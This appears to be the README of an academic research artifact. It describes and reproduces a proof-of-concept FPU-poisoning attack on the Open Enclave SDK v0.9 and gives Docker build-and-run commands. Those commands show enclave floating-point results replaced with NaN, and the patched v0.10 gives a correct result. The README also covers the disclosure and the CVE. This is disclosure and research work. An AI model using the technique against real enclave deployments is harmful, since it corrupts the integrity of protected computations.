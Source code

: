 # Proof of concept attack on OpenEnclave

[![build status](https://travis-matrix-badges.herokuapp.com/repos/fritzalder/faulty-point-unit/branches/master/5)](https://travis-ci.org/github/fritzalder/faulty-point-unit)

Open Enclave were the initial project to address the core issue described in the paper by using `ldmxcsr/cw` instructions. Following this patch, we started to investigate the issue described in the paper. During our investigation, we discovered a subclass of the issue, namely the MMX attack vector.

## Background and affected runtimes

The trusted enclave entry code reset the x87 FPU control word and SSE MXCSR control registers. We observed, however, that Open Enclave used `ldmxcsr/cw` instructions, instead of a full `xrstor` (as patched in e.g. in the Intel SGX-SDK):

 <https://github.com/openenclave/openenclave/commit/efe75044d215d43c2587ffd79a52074bf838368b>

This left a possibility to corrupt enclaved floating point operations (using the x87 FPU) by issuing MMX instructions in untrusted code before enclave entry. As of publication of this artifact, Microsoft has also decided to apply a full `xrstor` instruction to mitigate this here described issue (see below for details on the patch and associated CVE).

## Building and running the proof-of-concept exploit

The `hello-fpu` directory contains a minimal proof-of-concept OE application developed with an unmodified vulnerable Open Enclave SDK. The PoC shows that untrusted code could affect the integrity (expected outcome) of x87 floating point operations by silently replacing them with `NaN` values.

**Note (Docker simulator).** Building and installing OpenEnclave dependencies can be tricky. We therefore recommend to use the Docker container provided by the OpenEnclave team with all dependencies pre-installed, as documented [here](https://github.com/openenclave/openenclave/blob/v0.9.0/docs/GettingStartedDocs/Contributors/BuildingInADockerContainer.md). This is the easiest way to run the example exploit in the OE simulator.

**Note (OE packages).** For convenience, the current directory includes prebuilt Debian packages for both the vulnerable OE v0.9 and the patched OE v0.10. These are _unmodified_ OE packages that can alternatively also be downloaded from the [official OE release page](https://github.com/openenclave/openenclave/releases).

Proceed as follows to run the proof-of-concept FPU poisoning attack on the vulnerable and patched OE versions.

```bash
$ docker run -i -t oeciteam/oetools-full-18.04

# 1. Clone faulty-point-unit repo
root@oe-docker# cd ~
root@oe-docker# git clone https://github.com/fritzalder/faulty-point-unit.git
root@oe-docker# cd faulty-point-unit/02_table2_affected_runtimes/openenclave/
root@oe-docker# git submodule init && git submodule update

# 2. Install vulnerable OE SDK
root@oe-docker# sudo dpkg -i Ubuntu_1804_open-enclave_0.9.0_amd64.deb
root@oe-docker# source /opt/openenclave/share/openenclave/openenclaverc

# 3. Run proof-of-concept FPU poisoning attack in OE simulation mode
root@oe-docker# cd hello-fpu/ && make
root@oe-docker# make simulate
host/helloworldhost ./enclave/helloworldenc.signed --simulate
host/helloworldhost ./enclave/helloworldenc.signed --simulate
Running in simulation mode
Running in sim mode
Hello world from the enclave
Result = -nan

## 4. Install patched OE SDK
root@oe-docker# sudo dpkg -i ../Ubuntu_1804_open-enclave_0.10.0_amd64.deb
root@oe-docker# source /opt/openenclave/share/openenclave/openenclaverc

# 5. Run proof-of-concept FPU poisoning attack in OE simulation mode
root@oe-docker# make clean && make
root@oe-docker# make simulate
host/helloworldhost ./enclave/helloworldenc.signed --simulate
Running in simulation mode
Running in sim mode
Hello world from the enclave
Result = 0.246914
```

## Disclosure and mitigation

This issue was acknowledged by Microsoft and assigned CVE-2020-15107 (OpenEnclave security advisory [GHSA-7wjx-wcwg-w999](https://github.com/openenclave/openenclave/security/advisories/GHSA-7wjx-wcwg-w999)). Our proposed mitigation of using an `xrstor` was addressed and incorporated in version 0.10.0.

